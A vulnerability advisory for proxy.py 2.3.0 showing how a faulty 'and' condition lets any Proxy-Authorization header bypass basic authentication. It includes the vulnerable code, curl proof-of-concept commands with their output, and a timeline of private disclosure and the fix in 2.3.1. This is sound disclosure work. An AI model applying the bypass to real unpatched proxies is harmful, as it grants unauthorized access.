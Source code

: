 ```yaml
---
title: proxy.py 2.3.0 — Broken basic authentication
description: A logic bug enables a trivial bypass of the basic authentication of the proxy.
tags: [proxy, authentication]
advisory:
  discovered: 2021-01-09
  product: '[proxy.py](https://github.com/abhinavsingh/proxy.py)'
  versions:
    - 2.3.0
---
```


## Abstract

[proxy.py](https://github.com/abhinavsingh/proxy.py) is a feature-rich HTTP proxy server written in Python. Among the other things it allows to spawn a proxy server that enforces [HTTP basic access authentication][basic-auth].

A recent [refactoring][] introduced a logic bug that allows to bypass the proxy authentication.

[refactoring]: https://github.com/abhinavsingh/proxy.py/commit/a48319e32d3c60cb919ef70706b3a3750406f837
[basic-auth]: https://en.wikipedia.org/wiki/Basic_access_authentication

## Details

The vulnerable code is located in [proxy/http/proxy/auth.py][bug]:

```python
def before_upstream_connection(
        self, request: HttpParser) -> Optional[HttpParser]:
    if self.flags.auth_code:
        if b'proxy-authorization' not in request.headers:
            raise ProxyAuthenticationFailed()
        parts = request.headers[b'proxy-authorization'][1].split()
        if len(parts) != 2 \
                and parts[0].lower() != b'basic' \
                and parts[1] != self.flags.auth_code:
            raise ProxyAuthenticationFailed()
    return request
```

The `and` operators are wrong here, and it is enough to set one of its operands to `False` to skip the challenge and bypass the authentication. A valid `Proxy-Authorization` header (e.g., for `user:password`) is in the form:

```
Proxy-Authorization: Basic dXNlcjpwYXNzd29yZA==
```

So `len(parts)` is `2`, thus any valid header with any credentials works.

[bug]: https://github.com/abhinavsingh/proxy.py/blob/f04845cd645e642b92a40ea5650fd805f4f9ad04/proxy/http/proxy/auth.py#L31-L41

## Proof of concept

Start `proxy.py` like:

```console
$ proxy --basic-auth user:password
2021-01-10 19:25:31,183 - pid:73304 [I] load_plugins:334 - Loaded plugin proxy.http.proxy.AuthPlugin
2021-01-10 19:25:31,184 - pid:73304 [I] load_plugins:334 - Loaded plugin proxy.http.proxy.HttpProxyPlugin
2021-01-10 19:25:31,184 - pid:73304 [I] listen:113 - Listening on ::1:8899
2021-01-10 19:25:31,215 - pid:73304 [I] start_workers:136 - Started 8 workers
```

Trying to use the proxy without credentials correctly yields a proxy authentication error:

```console
$ curl -I -x localhost:8899 http://example.com
HTTP/1.1 407 Proxy Authentication Required
Proxy-agent: proxy.py v2.3.0
Proxy-Authenticate: Basic
Connection: close
Content-Length: 29
```

But specifying any credentials (e.g., `x:x`) allows the request to go through:

```console
$ curl -I -x x:x@localhost:8899 http://example.com
HTTP/1.1 200 OK
Content-Encoding: gzip
Accept-Ranges: bytes
Age: 276321
Cache-Control: max-age=604800
Content-Type: text/html; charset=UTF-8
Date: Sun, 10 Jan 2021 18:31:28 GMT
Etag: "3147526947"
Expires: Sun, 17 Jan 2021 18:31:28 GMT
Last-Modified: Thu, 17 Oct 2019 07:18:26 GMT
Server: ECS (bsa/EB23)
X-Cache: HIT
Content-Length: 648
```

## Timeline

2021-01-09
: Disclosed privately to the developers as suggested in their [SECURITY.md][].

2021-01-10
: The developers implement the [fix][] and release version 2.3.1

[fix]: https://github.com/abhinavsingh/proxy.py/pull/482/commits/9b00093288237f5073c403f2c4f62acfdfa8ed46
[SECURITY.md]: https://github.com/abhinavsingh/proxy.py/blob/develop/SECURITY.md
